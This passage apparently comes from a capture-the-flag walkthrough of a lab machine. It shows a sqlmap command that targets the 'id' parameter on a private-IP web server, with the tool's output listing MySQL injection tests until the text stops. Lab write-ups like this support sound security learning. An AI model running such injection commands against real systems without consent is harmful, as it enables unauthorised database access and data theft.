 RFI did not appear possible.


## SQLMap Enumeration

SQLMap was leveraged to enumerate, inject and dump the MySQL databases on the target.

### SQLMap

Using the GET 'id' as the injection point, the following SQLMap command was used to successfully list tables for all databases on the target system.

{% highlight bash %}
sqlmap -u "http://192.168.30.147/index.html?page=blog&title=Blog&id=2" -p id --tables
{% endhighlight %}

Full SQLMap Command Output:

{% highlight bash %}

_
___ ___| |_____ ___ ___  {1.0-dev-nongit-20150826}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
|_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 12:05:38

[12:05:38] [INFO] testing connection to the target URL
[12:05:38] [INFO] testing if the target URL is stable
[12:05:39] [INFO] target URL is stable
[12:05:39] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[12:05:39] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[12:05:57] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:05:57] [INFO] GET parameter 'id' seems to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
[12:05:57] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[12:05:57] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[12:05:57] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[12:05:57] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[12:05:57] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[12:05:57] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[12:05:57] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[12:05:57] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE, HAVING clause (BIGINT UNSIGNED)'
[12:05:57] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[12:05:57] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE, HAVING clause'
[12:05:57] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause'
[12:05:57] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
